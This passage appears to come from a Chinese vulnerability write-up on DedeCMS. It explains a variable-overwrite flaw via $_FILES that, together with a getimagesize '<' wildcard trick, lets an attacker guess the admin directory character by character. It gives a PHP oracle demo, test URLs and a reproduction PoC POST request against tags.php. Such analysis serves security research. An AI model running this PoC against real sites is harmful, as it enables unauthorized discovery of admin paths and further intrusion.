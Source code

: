 ```
        exit('Upload filetype not allow !');
    }
}
...... 
```

注意$$_key这一句，变量$key取自于$_FILE，由于$*FILE可控自然$key也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现cfg*|GLOBALS。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用<<通配符猜解后台目录，所以只要$$_key参数可控就可以达到目的。

但在这之前有个if(!defined('DEDEADMIN'))的判断,这个很好绕过设置tmp_name为0或者1.jpg含. 就可以绕过。

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

举个例子

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

[http://localhost/test.php?poc=./a](http://localhost/test.php?poc=./a)</favicon.ico

返回：0

[http://localhost/test.php?poc=./de](http://localhost/test.php?poc=./de)</favicon.ico

返回：1

[http://localhost/test.php?poc=./ded](http://localhost/test.php?poc=./ded)</favicon.ico

返回：1 `…` 
```

### 复现

构造poc

```
http://0-sec.org/tags.php

post: `dopost=save&_FILES[b4dboy][tmp_name]=./dimg/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif` 
```
